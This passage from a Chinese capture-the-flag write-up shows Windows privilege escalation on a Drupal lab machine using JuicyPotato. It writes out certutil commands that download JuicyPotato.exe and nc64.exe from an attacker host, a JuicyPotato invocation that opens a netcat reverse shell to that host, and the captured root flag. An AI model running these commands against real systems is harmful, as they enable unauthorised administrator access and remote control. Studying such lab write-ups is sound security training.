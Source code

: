 ```bash
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.9
```

## 内核提权

[PayloadsAllTheThings/Methodology and Resources/Windows - Privilege Escalation.md at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Windows - Privilege Escalation.md)

有很多，这里尝试 烂土豆

```bash
C:\Users\dimitris\Desktop>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled
```

https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe

[LOLBAS (lolbas-project.github.io)](https://lolbas-project.github.io/)

靶机下载 `kali` 里的 `JuicyPotato.exe`

```
certutil.exe -urlcache -split -f http://10.10.16.3:5555/JuicyPotato.exe JuicyPotato.exe
certutil.exe -urlcache -split -f http://10.10.16.3:5555/nc64.exe nc64.exe
```

靶机执行

```
C:\inetpub\drupal-7.54\JuicyPotato.exe -l 1337 -p c:\Windows\System32\cmd.exe -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} -a "/c C:\inetpub\drupal-7.54\nc64.exe -e cmd 10.10.16.3 4444"
```

kali 监听

```
└─# nc -lvvp 4444

c:\Users\Administrator\Desktop>type root.txt
type root.txt
113ea0c17e21bfba160b6efc3f383884
```
